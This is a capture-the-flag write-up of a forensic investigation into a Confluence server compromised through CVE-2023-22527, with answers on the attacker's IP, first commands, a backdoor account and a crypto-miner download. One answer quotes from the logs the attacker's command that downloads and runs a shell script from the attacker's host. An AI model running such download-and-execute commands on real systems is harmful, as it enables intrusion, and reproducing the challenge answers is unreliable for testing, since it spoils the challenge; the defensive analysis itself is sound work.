









# Confluence CVE2023-22527

## Sherlock scenario

Confluence is used by many organizations. Our organization was recently targeted and we need your expertise to help us recover from this incident. Our defense tools raised an alert about a crypto miner tool in the Confluence related directory, which led sysadmins to believe that this incident was initiated from Confluence.

## Given artefacts

## Foundational knowledge

### What is Confluence?

Confluence is Atlassian's web-based collaboration and documentation platform. Organizations use it as an internal wiki for project documentation, meeting notes, procedures, and technical knowledge. Content is written on pages, grouped into spaces, and protected with user permissions. [Atlassian Confluence](https://www.atlassian.com/software/confluence)

Confluence is available as an Atlassian-hosted cloud service and as software deployed on an organization's own infrastructure. This investigation concerns a self-managed installation on Linux. Its HTTP access logs record requests to the application, while its application logs provide details such as errors and exceptions. Operating-system evidence can then establish what processes ran and which network connections existed.

### CVE-2023-22527

CVE-2023-22527 is a critical template injection vulnerability in Confluence Data Center and Server. An unauthenticated attacker can exploit an affected instance to achieve remote code execution (RCE). Atlassian assigned it a CVSS score of 10.0. [Atlassian security advisory](https://confluence.atlassian.com/security/cve-2023-22527-rce-remote-code-execution-vulnerability-in-confluence-data-center-and-confluence-server-1333990257.html)

A server-side template normally combines predefined presentation logic with data to generate a response. Template injection occurs when attacker-controlled input is interpreted as template instructions or expressions. In this case, exploitation can lead to commands executing on the server with the application process's privileges. Remote code execution does not inherently mean the attacker has root privileges.

The affected releases are Confluence Data Center and Server 8.0.x, 8.1.x, 8.2.x, 8.3.x, 8.4.x, and 8.5.0–8.5.3. Atlassian lists 8.5.4, 8.6.0, and 8.7.1 as fixed releases for this specific vulnerability. Confluence Cloud is unaffected. [Atlassian CVE FAQ](https://support.atlassian.com/atlassian-knowledge-base/kb/faq-for-cve-2023-22527/)

In this challenge, the suspicious requests target `/template/aui/text-inline.vm`. The `.vm` extension denotes a Velocity template. Correlating requests to this endpoint with application errors and process creation events helps reconstruct the transition from exploitation to command execution. A `python-requests` user agent suggests scripted requests, but a user agent alone does not prove exploitation.

## Questions

### 1. What is the URI path which is vulnerable to the CVE?

Let's inspect the access log. Standing out from the normal web browser User-Agent are those suspicious `python-requests` UA, this means the requests are made from a script, not normal activity:



They all aim one URI.

`Answer: /template/aui/text-inline.vm`

### 2. When did the attacker first exploit this vulnerability?

Can be seen from previous snapshot

`Answer: 2024-01-25 11:41:26`

### 3. What is the attacker's remote IP Address?

Can be seen from the above snapshot

`Answer: 3.110.176.89`

### 4. Analyze the Sysmon for Linux logs and identify the first command executed by the attacker.

Well before this challenge, I think only Windows has Sysmon, but it also support Linux. The linux sysmon lies in `/var/log/syslog`. However, it's not plaintext for readable through EventViewer like windows sysmon log. We must use a dedicated tool crafted to view it : sysmonLogView. You can install it from github. Just cat the syslog, pipe it to the log view, then pipe it to another text file for further inspection:

```bash
sudo stdbuf -oL /opt/sysmon/sysmonLogView < syslog > sysmon-readable.txt
```

However the syslog is quite large and the conversion process may encounter some problems

Open the parsed, readable log in notepad, I can see this as the first command run by the attacker:



`Answer: id`

### 5. What time did the attacker first enumerate directories on the compromised system?

To enumerate directories, he almost has to run `ls`, so I find for that command, and this is our answer:



`Answer: 2024-01-25 11:43:33`

### 6. The attacker tried to execute remote commands to get a more stable shell, but apparently failed many times. Analyzing the Confluence log sources, can you find the command they executed around 2024-01-25 11:50:50 that errored out?

Now we need to use the application log in `/var/confluence-home/logs/atlassian-confluence.log`. It captures execution errors, exception messages and the command that caused them, narrow the timestamp to the proposed one, I see this command:



`Answer: wget http://3.110.176.89/lin/6730789213.sh;chmod x 6730789213.sh; bash 6730789213.sh`

### 7. User agents are a useful source of information and can be used for analysis. What user agent was the attacker using?

We already discussed this

`Answer: python-requests/2.28.2`

### 8. It appears that the attacker was able to download a bash script and then execute it to get a stable shell. What is the full path of this file? (Answer Format: /path/file.extension)

I intend to follow the hint of using the `lsof -nPI` in live response, but it is quite large and noisy, so I try looking at `ps -ef` instead, and it still points out a very suspicious file:



`Answer: /tmp/xxx.sh`

### 9. What is the size in bytes of the bash file detected earlier?

This question is wrong, the accepted answer is the inode number instead of the size in bytes. The actual file size is **46 bytes**, confirmed by the collected file and the bodyfile entry. Bodyfile fields follow `MD5|name|inode|mode|UID|GID|size|atime|mtime|ctime|crtime`; the entry for `/tmp/xxx.sh` contains `68855` in the inode field and `46` in the size field.

`Answer: 68855` 

### 10. Analyzing the network connections from the triage output, what is the C2 IP address and port that the attacker connected to? (Answer Format: IP:PORT)

The bash file itself already answers it:



We can also confirm by looking at the `lsof -nPli` output:



`Answer: 3.110.176.89:1200`

### 11. What is the SHA1 hash of the bash script found in Question 8?

Just hash it

`Answer: 9ac4d3459093aac9ee4bb3b87fdeaaaa3c5bd551`

### 12. Attackers create new privileged user accounts for backdoor access. What is the username of the backdoor account created by the attacker?

To add a user in linux, useradd command is used, so I search for it in the parsed sysmon:



`Answer: confluence_servcie`

### 13. When was this backdoor account created? (Answer Format: YYYY-MM-DD HH:MM:SS)

Can be seen from the previous snapshot

`Answer: 2024-01-25 12:15:42`

### 14. The attacker downloaded a miner tool before being detected. What is the full path of this miner archive file?

Well I just guess he used wget, and luckily it is correct:



`Answer: /opt/confluence/xmrig-6.16.4-linux-static-x64.tar.gz`
